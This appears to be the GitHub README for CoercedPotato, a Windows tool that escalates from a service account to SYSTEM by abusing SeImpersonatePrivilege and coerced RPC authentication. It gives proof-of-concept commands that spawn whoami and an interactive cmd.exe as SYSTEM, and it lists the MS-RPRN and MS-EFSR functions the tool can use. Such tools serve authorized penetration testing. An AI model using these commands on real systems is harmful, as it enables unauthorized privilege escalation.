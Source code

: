 ###
# Coerced potato

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: [https://blog.hackvens.fr/articles/CoercedPotato.html](https://blog.hackvens.fr/articles/CoercedPotato.html) (The english version is coming soon!! 😄)

A very quick PoooooC: 11

```txt
.\CoercedPotato.exe -c whoami
```
An other PoC with an interactive shell:

```txt
.\CoercedPotato.exe -c cmd.exe
```
<p align="center">
  <img src="poc.png">
</p>


## Usage

You can check the help message using the `--help` option.

```txt
                                                                  
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce    
                                                                  
CoercedPotato is an automated tool for privilege escalation exploit using SeImpersonatePrivilege or SeImpersonatePrimaryToken.
Usage: .\CoercedPotato.exe [OPTIONS]

Options:
  -h,--help                   Print this help message and exit
  -c,--command TEXT REQUIRED  Program to execute as SYSTEM (i.e. cmd.exe)
  -i,--interface TEXT         Optionnal interface to use (default : ALL) (Possible values : ms-rprn, ms-efsr
  -n,--exploitId INT          Optionnal exploit ID (Only usuable if interface is defined) 
                               -> ms-rprn : 
                                 [0] RpcRemoteFindFirstPrinterChangeNotificationEx()
                                 [1] RpcRemoteFindFirstPrinterChangeNotification()
                               -> ms-efsr 
                                 [0] EfsRpcOpenFileRaw()
                                 [1] EfsRpcEncryptFileSrv()
                                 [2] EfsRpcDecryptFileSrv()
                                 [3] EfsRpcQueryUsersOnFile()
                                 [4] EfsRpcQueryRecoveryAgents()
                                 [5] EfsRpcRemoveUsersFromFile()
                                 [6] EfsRpcAddUsersToFile()
                                 [7] EfsRpcFileKeyInfo() # NOT WORKING
                                 [8] EfsRpcDuplicateEncryptionInfoFile()
                                 [9] EfsRpcAddUsersToFileEx()
                                 [10] EfsRpcFileKeyInfoEx() # NOT WORKING
                                 [11] EfsRpcGetEncryptedFileMetadata()
                                 [12] EfsRpcEncryptFileExSrv()
                                 [13] EfsRpcQueryProtectors()
                              
  -f,--force BOOLEAN          Force all RPC functions even if it says 'Exploit worked!' (Default value : false)
  --interactive BOOLEAN       Set wether the process should be run within the same shell or open a new window. (Default value : true)
```


Made in France 🇫🇷 with <3
